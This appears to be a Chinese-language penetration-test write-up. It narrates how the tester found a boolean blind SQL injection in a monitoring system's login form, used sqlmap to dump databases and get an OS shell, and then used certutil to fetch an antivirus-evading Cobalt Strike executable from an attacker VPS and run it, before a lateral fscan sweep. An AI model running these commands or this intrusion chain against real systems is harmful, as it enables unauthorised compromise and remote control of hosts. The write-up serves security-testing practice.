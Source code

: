 # 记一次从登录框到内网横向
## 前言
接到公司通知要对某某行业做渗透测试，挖一些尽可能高危的漏洞，于是便有了接下来的故事。
## 0x01 信息收集
首先收集了十几个该行业相关的网站，然后一个个做信息收集，先列出来可利用的点。
![](1.png)

1. 某某公司为YouDianCMS（可能存在注入）。
2. 某集团OA，使用的是通达OA。
3. 某管理系统，存在登录框，无验证码。
4. 某监控管理系统，存在登录框，无验证码。
5. 某收费系统，使用的是若依管理系统。

## 0x02 漏洞利用
1. 习惯性先试一下通达OA，通达OA的利用工具比较方便，若存在漏洞可以一键getshell,不过利用失败了。
![](2.png)
![](3.png)
2. 测试YouDianCMS，之前收集的youdianCMS的sql注入的POC，直接利用，但是还是不存在该漏洞。
![](4.png)
3. 测试若依管理系统：

	1) 测试默认口令：admin/admin123，失败。
![](5.jpg)
	2) 测试shiro反序列化漏洞。
![](6.jpg)
均失败了

4. 测试某管理系统：

爆破密码。爆出来了弱口令admin/456123，但是登录进去后找了一圈没有geshell的点，一个弱口令肯定没法交差。
![](7.png)

5. 测试某监控管理系统的登录框
![](18.png)
最后一个点了，再不行要重新打点了，本来也没报什么希望，登录框做渗透测几乎没挖到过什么大的漏洞。

首先测试弱口令，爆破了一圈没有弱口令，扫目录也没扫出什么东西，JS代理里也没泄露有用的信息，突然想到还没试注入，这一试，果然有问题。
![](8.png)
![](9.jpg)
当loginName的值后边修改为`and'q'='q"`时，页面返回密码错误，修改为`and'u'='k"`时，页面返回用户不存在，说明页面存在布尔盲注。
sqlmap一把梭：

	sqlmap.py -r 1.txt --dbs --random-agent --proxy=http://127.0.0.1:7890
![](9.png)
跑出来了数据库，但是跑表的时候出错了，不知道为什么跑不出来。


直接获取shell试试：

	sqlmap.py -r 1.txt --os-shell --random-agent --proxy=http://127.0.0.1:7890
![](10.png)
可以执行命令，但是回显的巨慢。

本来想着已经成功了，接下来的拿shell就水到渠成，没想到又曲折了一番。

1. CS直接生成powershell命令，然后令目标系统执行，执行完毕一直没上线，然后想着让sqlmap回显一下看看有什么问题，等了十几分钟页面才回显完，应该是有杀软，检测到该命令为危险命令，就给拦截了。
![](11.png)

2. 直接生成exe肯定也不行，这时候就要让大佬帮忙了。
![](12.png)
![](13.png)

免杀马到手，Windows通过certutil命令进行远程下载。
先把免杀马上传到VPS上，然后开一个http服务。
然后在shell中执行：

	certutil -urlcache -split -f http://xx.xx.xx.xx/cs.exe dll.exe
然后执行`dll.exe`，这回想着肯定能成功，结果等了半天还是没反应，一脸懵逼，看了下VPS，有下载记录呀。
![](14.png)
难道被杀了？想执行一下`dir`看看目录下有没有该文件，但是目录下有几百个文件，要等全部都回显要等半小时。
最后想了想是不是该目录下没有权限，于是在目标系统的D盘新建一个dll文件夹，然后把免杀马写到这里。

	certutil -urlcache -split -f http://xx.xx.xx.xx/cs.exe d:\dll\dll.exe
![](17.png)

然后执行：`d:\dll\dll.exe`，终于上线。
![](15.png)

## 0x03 横向攻击
看一下目标机器有哪些敏感文件可利用，收获颇丰呀。
![](16.png)

fscan横向一波，发现了几个站点，但是没有扫到能直接利用的漏洞。
![](19.png)

由于领导说的只是让挖到漏洞，所以要问下领导能否进行横向攻击，先点到为止。

## 0x04 总结
之前做渗透每次遇到登录框都比较头疼，因为登录框可利用的点比较少，也没在登录框上挖到过什么大的漏洞，但是本次运气还是比较好的，总算可以交差了。